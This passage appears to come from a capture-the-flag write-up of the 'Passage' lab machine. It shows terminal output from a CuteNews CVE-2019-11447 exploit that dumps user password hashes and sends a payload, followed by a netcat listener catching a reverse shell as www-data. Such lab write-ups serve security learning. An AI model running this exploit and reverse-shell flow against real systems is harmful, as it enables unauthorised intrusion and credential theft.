 ## Initial access - CVE-2019-11447

In order to get our shell, we simply need to listen for our reverse-shell and run the exploit.

```bash
root@darkness:~# python3 exploit.py 



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: DBouVPIQBE and password: DBouVPIQBE

=======================================================
Sending Payload
=======================================================
============================
Dropping to a SHELL
============================
```

```bash
root@darkness:~# nc -lnvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.206.
Ncat: Connection from 10.10.10.206:55710.
bash: cannot set terminal process group (1720): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$
```
